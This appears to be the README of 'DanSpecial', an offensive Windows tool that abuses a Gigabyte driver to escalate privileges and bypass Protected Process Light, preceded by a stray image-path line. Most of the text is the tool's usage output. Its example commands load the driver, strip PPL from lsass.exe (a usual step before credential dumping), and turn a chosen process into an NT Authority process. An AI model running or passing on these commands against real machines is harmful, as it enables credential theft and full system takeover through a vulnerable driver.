 # DanSpecial
Weaponizing Gigabyte driver for priv escalation and bypass PPL

====== DanSpecial ======
[-] Not enough arguments.
[-] Args: "DanSpecial.exe [1 or 0, 1 to load the driver, 0 to not load driver] [0 1 or 2, 0 for disable PPL, 1 for enable PPL, 2 for privesc] [process name.exe]"
[-] Example: "DanSpecial.exe 1 0 lsass.exe"    -- Will load the driver (requiresadmin) and disable PPL on lsass.exe
[-] Example: "DanSpecial.exe 0 1 firefox.exe"    -- Will not load the driver (assuming driver is already loaded) and enable PPL on firefox.exe
[-] Example: "DanSpecial.exe 0 2 firefox.exe"    -- Will not load the driver (assuming driver is already loaded) and make firefox.exe an NT Authority process.
